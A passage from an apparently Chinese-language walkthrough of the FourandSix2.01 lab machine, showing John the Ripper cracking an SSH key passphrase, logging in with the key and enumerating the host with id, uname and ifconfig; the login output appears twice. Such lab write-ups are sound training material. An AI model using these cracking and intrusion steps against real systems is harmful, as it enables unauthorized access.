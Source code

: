   ```
  ┌──(kali㉿kali)-[~/Desktop/walkthroughs/FourandSix2.01/tmp]
  └─$ john --show id_rsa.hash      
  id_rsa:12345678
  
  1 password hash cracked, 0 left
  ```

- 使用密码：`12345678`尝试进行登录

- ```shell
  └─$ ssh -i id_rsa user@192.168.2.4
  Enter passphrase for key 'id_rsa': 
  Enter passphrase for key 'id_rsa': 
  Last login: Mon Aug  7 15:29:19 2023 from 192.168.2.2
  OpenBSD 6.4 (GENERIC) #349: Thu Oct 11 13:25:13 MDT 2018
  
  Welcome to OpenBSD: The proactively secure Unix-like operating system.
  
  Please use the sendbug(1) utility to report bugs in the system.
  Before reporting a bug, please try to reproduce it with the latest
  version of the code.  With bug reports, please try to ensure that
  enough information to reproduce the problem is enclosed, and if a
  known fix for it exists, include that as well.
  
  fourandsix2$ 
  
  ```



## 获得初始shell

```shell
└─$ ssh -i id_rsa user@192.168.2.4
Enter passphrase for key 'id_rsa': 
Enter passphrase for key 'id_rsa': 
Last login: Mon Aug  7 15:29:19 2023 from 192.168.2.2
OpenBSD 6.4 (GENERIC) #349: Thu Oct 11 13:25:13 MDT 2018

Welcome to OpenBSD: The proactively secure Unix-like operating system.

Please use the sendbug(1) utility to report bugs in the system.
Before reporting a bug, please try to reproduce it with the latest
version of the code.  With bug reports, please try to ensure that
enough information to reproduce the problem is enclosed, and if a
known fix for it exists, include that as well.

fourandsix2$ id
uid=1000(user) gid=1000(user) groups=1000(user), 0(wheel)
fourandsix2$ uname -a
OpenBSD fourandsix2.localdomain 6.4 GENERIC#349 amd64
fourandsix2$ ifconfig 
lo0: flags=8049<UP,LOOPBACK,RUNNING,MULTICAST> mtu 32768
        index 3 priority 0 llprio 3
        groups: lo
        inet6 ::1 prefixlen 128
        inet6 fe80::1%lo0 prefixlen 64 scopeid 0x3
        inet 127.0.0.1 netmask 0xff000000
em0: flags=8843<UP,BROADCAST,RUNNING,SIMPLEX,MULTICAST> mtu 1500
        lladdr 00:0c:29:48:57:cf
        index 1 priority 0 llprio 3
        media: Ethernet autoselect (1000baseT full-duplex,master)
        status: active
        inet 192.168.2.4 netmask 0xffffff00 broadcast 192.168.2.255
enc0: flags=0<>
        index 2 priority 0 llprio 3
  ```